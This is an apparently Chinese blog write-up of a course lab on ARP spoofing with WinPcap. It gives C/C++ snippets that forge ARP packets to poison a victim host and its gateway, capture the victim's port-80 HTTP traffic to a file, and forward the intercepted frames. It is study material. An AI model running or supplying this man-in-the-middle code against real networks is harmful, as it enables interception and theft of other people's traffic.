 ```yaml
---
title: WinPcap编程——APR欺骗
tags: [VC++]
date: 2016-12-29 23:48
---
```

最近socket大作业布置了一道，实现arp欺骗的代码。。正好利用此机会学一学
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><h1 id="一-实验要求">一 实验要求</h1>
<p><strong>利用WinPcap编程，实现基于ARP欺骗的中 间人攻击。</strong> <br>
1）利用WinPcap，分别向被欺骗主机和网关发送APR请求包， 达到同时欺骗目标主机和网关的目的； <br>
2）所有目标主机和网关之间的数据都会被我们劫持，过滤 两者之间的所有http交互数据包，并保存为文件。 （http包的过滤可用80端口来标识）</br></br></p>
<h1 id="二-实验原理">二 实验原理</h1>
<h2 id="1-选择网卡及过滤规则">1 选择网卡及过滤规则</h2>
<p>在这里特别注以下几点：</p>
<pre class="prettyprint"><code class=" hljs cs"><span class="hljs-number">1</span> . <span class="hljs-keyword">char</span> packet_filter[] = <span class="hljs-string">"not arp"</span>;<span class="hljs-comment">//选择过滤的协议</span>
<span class="hljs-number">2</span> . <span class="hljs-comment">/* 跳转到用户选择的网卡 */</span>
<span class="hljs-keyword">for</span> (d = alldevs, i = <span class="hljs-number">0</span>; i&lt; inum - <span class="hljs-number">1</span>; d = d-&gt;next, i++);

<span class="hljs-comment">/* 打开网卡 */</span>
adhandle = pcap_open_live(d-&gt;name,                 
<span class="hljs-number">65536</span>,                         
<span class="hljs-number">1</span>,                             
<span class="hljs-number">1</span>,                         <span class="hljs-comment">//这里读取时间不要设置的太长，否则会超时</span>
errbuf                         
);

</code></pre>
<h2 id="2-arp欺骗主机和网关">2 ARP欺骗主机和网关</h2>
<h4 id="利用winpcap分别向被欺骗主机和网关发送apr请求包">利用WinPcap，分别向被欺骗主机和网关发送APR请求包</h4>
<pre><code>创建子线程，在子线程中实现arp欺骗
</code></pre>
<pre class="prettyprint"><code class=" hljs cpp"><span class="hljs-comment">//欺骗目标主机</span>
    <span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">char</span> sendbuf[<span class="hljs-number">60</span>], sendbuf1[<span class="hljs-number">60</span>]; <span class="hljs-comment">//arp包结构大小，42个字节</span>
    <span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">long</span> dip, sip;
    dip = inet_addr(victim_ip);<span class="hljs-comment">//目标ip</span>
    sip = inet_addr(gateway_ip);<span class="hljs-comment">//网关ip</span>
    <span class="hljs-built_in">memset</span>(eh.DestMAC, <span class="hljs-number">0xff</span>, <span class="hljs-number">6</span>);
    <span class="hljs-built_in">memcpy</span>(eh.SourMAC, smac, <span class="hljs-number">6</span>);   <span class="hljs-comment">//以太网首部源MAC地址</span>
    <span class="hljs-built_in">memcpy</span>(ah.smac, smac, <span class="hljs-number">6</span>);   <span class="hljs-comment">//ARP字段源MAC地址</span>
    <span class="hljs-built_in">memset</span>(ah.dmac, <span class="hljs-number">0x00</span>, <span class="hljs-number">6</span>);
    <span class="hljs-built_in">memcpy</span>(ah.sip, (<span class="hljs-keyword">const</span> <span class="hljs-keyword">void</span>*)&amp;sip, <span class="hljs-number">4</span>);   <span class="hljs-comment">//ARP字段源IP地址</span>
    <span class="hljs-built_in">memcpy</span>(ah.dip, (<span class="hljs-keyword">const</span> <span class="hljs-keyword">void</span>*)&amp;dip, <span class="hljs-number">4</span>);   <span class="hljs-comment">//ARP字段目的IP地址</span>
    eh.EthType = htons(ETH_ARP);   <span class="hljs-comment">//htons：将主机的无符号短整形数转换成网络字节顺序</span>
    ah.hdType = htons(ARP_HARDWARE);
    ah.proType = htons(ETH_IP);
    ah.hdSize = <span class="hljs-number">6</span>;
    ah.proSize = <span class="hljs-number">4</span>;
    ah.op = htons(ARP_REQUEST);
    <span class="hljs-built_in">memset</span>(sendbuf, <span class="hljs-number">0</span>, <span class="hljs-keyword">sizeof</span>(sendbuf));   <span class="hljs-comment">//ARP清零</span>
    <span class="hljs-built_in">memcpy</span>(sendbuf, &amp;eh, <span class="hljs-keyword">sizeof</span>(eh));
    <span class="hljs-built_in">memcpy</span>(sendbuf + <span class="hljs-keyword">sizeof</span>(eh), &amp;ah, <span class="hljs-keyword">sizeof</span>(ah));</code></pre>
<pre class="prettyprint"><code class=" hljs cpp"><span class="hljs-comment">//欺骗网关</span>
    <span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">long</span> Gate_dip, Gate_sip;
    Gate_dip = inet_addr(gateway_ip);<span class="hljs-comment">//目标地址ip</span>
    Gate_sip = inet_addr(victim_ip);
    <span class="hljs-built_in">memset</span>(eh1.DestMAC, <span class="hljs-number">0xff</span>, <span class="hljs-number">6</span>);
    <span class="hljs-built_in">memcpy</span>(eh1.SourMAC, smac, <span class="hljs-number">6</span>);  <span class="hljs-comment">//以太网首部源MAC地址</span>
    <span class="hljs-built_in">memcpy</span>(ah1.smac, smac, <span class="hljs-number">6</span>);   <span class="hljs-comment">//ARP字段源MAC地址</span>
    <span class="hljs-built_in">memset</span>(ah1.dmac, <span class="hljs-number">0x00</span>, <span class="hljs-number">6</span>);
    <span class="hljs-built_in">memcpy</span>(ah1.sip, (<span class="hljs-keyword">const</span> <span class="hljs-keyword">void</span>*)&amp;Gate_sip, <span class="hljs-number">4</span>);   <span class="hljs-comment">//ARP字段源IP地址</span>
    <span class="hljs-built_in">memcpy</span>(ah1.dip, (<span class="hljs-keyword">const</span> <span class="hljs-keyword">void</span>*)&amp;Gate_dip, <span class="hljs-number">4</span>);   <span class="hljs-comment">//ARP字段目的IP地址</span>
    eh1.EthType = htons(ETH_ARP);   <span class="hljs-comment">//htons：将主机的无符号短整形数转换成网络字节顺序</span>
    ah1.hdType = htons(ARP_HARDWARE);
    ah1.proType = htons(ETH_IP);
    ah1.hdSize = <span class="hljs-number">6</span>;
    ah1.proSize = <span class="hljs-number">4</span>;
    ah1.op = htons(ARP_REQUEST);
    <span class="hljs-built_in">memset</span>(sendbuf1, <span class="hljs-number">0</span>, <span class="hljs-keyword">sizeof</span>(sendbuf1));   <span class="hljs-comment">//ARP清零</span>
    <span class="hljs-built_in">memcpy</span>(sendbuf1, &amp;eh1, <span class="hljs-keyword">sizeof</span>(eh1));
    <span class="hljs-built_in">memcpy</span>(sendbuf1 + <span class="hljs-keyword">sizeof</span>(eh1), &amp;ah1, <span class="hljs-keyword">sizeof</span>(ah1));</code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20161229233736175?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h2 id="3-截获http报文">3 截获HTTP报文</h2>
<p>识别HTTP包只在前面识别的基础上，通过协议头所定义的结构体识别是否为80端口。</p>
<pre class="prettyprint"><code class=" hljs objectivec"><span class="hljs-comment">//保存http数据包</span>
    <span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">short</span> <span class="hljs-keyword">int</span>* sourcePort = (<span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">short</span> <span class="hljs-keyword">int</span> *)(pkt_data + <span class="hljs-number">32</span>);
    <span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">short</span> <span class="hljs-keyword">int</span>* destPort = (<span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">short</span> <span class="hljs-keyword">int</span> *)(pkt_data + <span class="hljs-number">34</span>);
    FILE *fp;
    <span class="hljs-keyword">if</span> (*sourcePort == htons(<span class="hljs-number">80</span>) || *destPort == htons(<span class="hljs-number">80</span>))
    {
        fp = fopen(<span class="hljs-string">"http.http"</span>, <span class="hljs-string">"ab"</span>);
        <span class="hljs-keyword">if</span> ( fp == <span class="hljs-literal">NULL</span>)
        {
            cout &lt;&lt; <span class="hljs-string">"failed !!\n"</span>;
            <span class="hljs-keyword">return</span> ;
        }
        fwrite(pkt_data, <span class="hljs-keyword">sizeof</span>(<span class="hljs-keyword">unsigned</span> <span class="hljs-keyword">char</span>), header-&gt;len, fp);
        fclose(fp);
    }
</code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20161229233859551?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h2 id="4-转发数据包">4 转发数据包</h2>
<p>通过识别mac地址，实现数据包的识别，继而修改数据包内容将其发送出去，具体实现如下 <br>
受害者向外发送数据</br></p>
<pre class="prettyprint"><code class=" hljs perl"><span class="hljs-keyword">if</span> (!memcmp(pkt_data, smac, <span class="hljs-number">6</span>) &amp;&amp; !memcmp(pkt_data+<span class="hljs-number">6</span>, dmac, <span class="hljs-number">6</span>))//受害者发包
    {
        <span class="hljs-keyword">send</span> = (unsigned char <span class="hljs-variable">*)</span>pkt_data;
        memcpy(<span class="hljs-keyword">send</span>, Gate_dmac, <span class="hljs-number">6</span>);                         <span class="hljs-regexp">//</span>将目的MAC改为网关的MAC
        memcpy(<span class="hljs-keyword">send</span> + <span class="hljs-number">6</span>, smac, <span class="hljs-number">6</span>);                      <span class="hljs-regexp">//</span>将源MAC改为自己的MAC
        <span class="hljs-keyword">if</span> (pcap_sendpacket(adhandle, pkt_data, header-&gt;len) == <span class="hljs-number">0</span>)
            cout &lt;&lt; <span class="hljs-string">"post succeed"</span>;
        <span class="hljs-keyword">printf</span>(<span class="hljs-string">"<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span> -&gt; <span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>\n"</span>,
            ih-&gt;saddr.byte1,
            ih-&gt;saddr.byte2,
            ih-&gt;saddr.byte3,
            ih-&gt;saddr.byte4,
            ih-&gt;daddr.byte1,
            ih-&gt;daddr.byte2,
            ih-&gt;daddr.byte3,
            ih-&gt;daddr.byte4
        );
        <span class="hljs-keyword">printf</span>(<span class="hljs-string">"A:<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span><span class="hljs-variable">**</span><span class="hljs-variable">*%</span>x.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>\n"</span>, pkt_data[<span class="hljs-number">0</span>], pkt_data[<span class="hljs-number">1</span>], pkt_data[<span class="hljs-number">2</span>], pkt_data[<span class="hljs-number">3</span>], pkt_data[<span class="hljs-number">4</span>], pkt_data[<span class="hljs-number">5</span>], pkt_data[<span class="hljs-number">6</span>], pkt_data[<span class="hljs-number">7</span>], pkt_data[<span class="hljs-number">8</span>], pkt_data[<span class="hljs-number">9</span>], pkt_data[<span class="hljs-number">10</span>], pkt_data[<span class="hljs-number">11</span>]);
    }</code></pre>
<p>受害者接受数据包</p>
<pre class="prettyprint"><code class=" hljs perl"><span class="hljs-keyword">if</span> (!memcmp(pkt_data, smac, <span class="hljs-number">6</span>) &amp;&amp; !memcmp(pkt_data + <span class="hljs-number">6</span>, Gate_dmac, <span class="hljs-number">6</span>))//受害者收包
    {
        <span class="hljs-keyword">send</span> = (unsigned char <span class="hljs-variable">*)</span>pkt_data;
        memcpy(<span class="hljs-keyword">send</span>, dmac, <span class="hljs-number">6</span>);
        memcpy(<span class="hljs-keyword">send</span> + <span class="hljs-number">6</span>, smac, <span class="hljs-number">6</span>);
        <span class="hljs-keyword">if</span> (pcap_sendpacket(adhandle, pkt_data, header-&gt;len) == <span class="hljs-number">0</span>)
            cout &lt;&lt; <span class="hljs-string">"post succeed"</span>;
        <span class="hljs-keyword">printf</span>(<span class="hljs-string">"<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span> -&gt; <span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>.<span class="hljs-variable">%d</span>\n"</span>,
            ih-&gt;saddr.byte1,
            ih-&gt;saddr.byte2,
            ih-&gt;saddr.byte3,
            ih-&gt;saddr.byte4,
            ih-&gt;daddr.byte1,
            ih-&gt;daddr.byte2,
            ih-&gt;daddr.byte3,
            ih-&gt;daddr.byte4
        );
        <span class="hljs-keyword">printf</span>(<span class="hljs-string">"C:<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span><span class="hljs-variable">**</span><span class="hljs-variable">*%</span>x.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>.<span class="hljs-variable">%x</span>\n"</span>, pkt_data[<span class="hljs-number">0</span>], pkt_data[<span class="hljs-number">1</span>], pkt_data[<span class="hljs-number">2</span>], pkt_data[<span class="hljs-number">3</span>], pkt_data[<span class="hljs-number">4</span>], pkt_data[<span class="hljs-number">5</span>], pkt_data[<span class="hljs-number">6</span>], pkt_data[<span class="hljs-number">7</span>], pkt_data[<span class="hljs-number">8</span>], pkt_data[<span class="hljs-number">9</span>], pkt_data[<span class="hljs-number">10</span>], pkt_data[<span class="hljs-number">11</span>]);
    }</code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20161229234105336?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h1 id="三-实验总结">三 实验总结</h1>
<p>实验总体不难，但我在做得时候并不顺利，在其中体会到了一个道理，吃一堑长一智吧，那就是一定要知道自己每行代码再干什么。 <br>
一开始直接找了现成的选择网卡的代码，但直到最后调通之前才知道，那个代码是错的，根本就没有获取到TCP包~~~~，改了之后就好了。。。 <br>
并且在测试中发现，如果开wireshark抓包软件，那么受害者的网速会急剧变差。代码见附件</br></br></p></div>